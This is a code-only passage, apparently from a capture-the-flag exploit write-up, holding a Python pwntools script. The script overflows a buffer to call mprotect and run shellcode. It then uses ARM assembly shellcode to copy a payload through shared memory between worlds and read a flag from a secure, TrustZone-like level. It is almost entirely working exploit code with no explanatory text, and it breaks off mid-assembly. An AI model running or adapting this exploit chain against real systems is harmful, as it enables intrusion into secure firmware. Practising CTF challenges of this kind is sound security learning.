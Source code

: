 ```python
payload = b'A' * 0b101 + b'\x00'
payload += shellcode
p.sendline(payload)

sla(b'cmd> ', b'1')
sla(b'index: ', str(0x1000))
payload = b''
payload += b'A'*0b101 + b'\x00'
payload += b'A'*(0x100 - len(payload))
payload += p64(0xdeadbeef)
payload += p64(e.sym.mprotect)
payload += p64(sc_st)
sla(b'key: ', payload)

sla(b'cmd> ',b'2')
sla(b'index: ', str(1))
sleep(0.1)

read_flag = [1, 252, 59, 213, 1, 0, 0, 185, 33, 252, 59, 213, 1, 4, 0, 185, 65, 252, 59, 213, 1, 8, 0, 185, 97, 252, 59, 213, 1, 12, 0, 185, 129, 252, 59, 213, 1, 16, 0, 185, 161, 252, 59, 213, 1, 20, 0, 185, 193, 252, 59, 213, 1, 24, 0, 185, 225, 252, 59, 213, 1, 28, 0, 185]
SEL3_shellcode = asm('''\
    mov x0, sp
''')
SEL3_shellcode += bytes(read_flag)
SEL3_shellcode += asm('''\
ldr x11, =0x09000000
mov x8, #0
loop_print_flag_sel3:                  
    add x1, sp, x8 // dst
    ldrb w0, [x1]
    strb w0, [x11]
    add x8, x8, #1
    cmp x8, #32
    bne loop_print_flag_sel3
''')

# 0x000000000e002210 00000fb0
WORLD_SHARED_MEM_VA = 0x023fe000
WORLD_SHARED_MEM_PA = 0x40033000 
SEL1_shellcode = b''
SEL1_shellcode += asm(f'''\
    ldr r0, ={WORLD_SHARED_MEM_VA}
    add r10, r0, #0x20c
    mov r9, #0
    ldr r2, =0x100de8 // 0xe499000 + 0xde8
    loop:
        add r0, r10, r9 
        add r1, r2, r9
        ldrb r0, [r0]
        strb r0, [r1]
        add r9, r9, #1
        cmp r9, #{len(SEL3_shellcode)}
        bne loop
        
    // mapping
    ldr r0, =0x8005008
    ldr r1, =0xe00364f
    str r1, [r0]
    mov r0, #0x1000
    ldr r1, =0xe499783
    str r1, [r0]

```